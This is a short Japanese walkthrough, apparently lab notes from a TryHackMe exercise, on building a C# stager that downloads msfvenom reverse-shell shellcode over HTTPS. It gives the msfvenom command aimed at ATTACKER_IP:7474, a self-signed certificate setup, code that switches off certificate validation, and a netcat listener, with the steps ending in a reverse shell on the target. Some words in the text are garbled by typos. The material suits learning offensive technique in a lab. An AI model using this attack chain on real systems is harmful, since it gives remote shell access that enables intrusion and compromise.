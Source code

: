 1. ステージャーをかく
`StagedPayload.cs`

2. ステージャーのコンパイル
windows上で行った。
```
csc StagedPayload.cs
```

3. ペイロードの作成
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```
最後の`-b`は、`\x00`(NULLバイト)、`\x0a`（改行)、`\x0d`（キャリッジリターン）を含まないように指定している。ヘルコードがネットWー悪を介して送信されるとき、問題を引き起こす可能性があるから。

4. オレオレ証明書の作成
```
$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
localhost.pemが作成される。

5. webサーバーの起動
THMのサンプルコードは、`wrap_socket`関数を使用しており、Python3.10以降では非推奨かつ削除されるので、書き直した。`hoge.py`

```
$ python hoge.py
```
こで、https://localhostにアクセスができる。ブラウザからアクセスすると自己署名の警告がでるが、ステージャーでは、以下の部分で警告が出ないように上書きしているので問題ない。
```
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
```

6. リッスンポートの起動
```
$ nc -lvp 7474
```

7. 実行
これで、対象のマシーン上に、`StagedPayload.exe`をアップロードすれば、実行Sれて、待ち受けている7474ポートにリバースシェルが接続される。
